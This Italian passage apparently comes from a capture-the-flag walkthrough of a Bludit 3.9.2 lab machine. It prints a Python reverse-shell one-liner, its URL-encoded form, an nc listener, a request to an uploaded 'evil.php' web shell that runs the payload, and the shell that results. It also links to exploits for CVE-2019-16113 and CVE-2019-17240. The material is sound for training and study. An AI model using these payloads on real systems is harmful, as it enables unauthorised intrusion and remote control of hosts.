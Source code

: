 
Utilizziamo questa shell python 
```python 
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connec
t(("10.10.14.23",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

che codificata in URL ci da
```URL
python%20-
c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_
STREAM);s.connect((%2210.10.14.24%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.f
ileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-
i%22]);%27
```

ci mettiamo in ascolto con nc
```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lvnp 443
listening on [any] 443 ...
```

la richiesta finale sarà
```html
http://10.10.10.191/bl-content/tmp/evil.php?0=python%20-
c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_
STREAM);s.connect((%2210.10.14.24%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.f
ileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-
i%22]);%27
```

e abbiamo la nostra shell
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.191] 53632
/bin/sh: 0: can't access tty; job control turned off
$
```

eseguiamo il solito update della shell siamo pronti per la privesc.

## Automatic Foothold 

### Poc.py

Cercando il rete per `Bludit 3.9.2 RCE CVE ID` ci imbattiamo in [questa](https://github.com/0xConstant/CVE-2019-16113) repository di git 
dove si fa riferimento a due [CVE-2019-17240](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) (Bludit Brute Force Mitigation Bypass, menzionato in precedenza )& [CVE-2019-16113](https://www.exploit-db.com/exploits/47699). (modulo presente in metasploit)
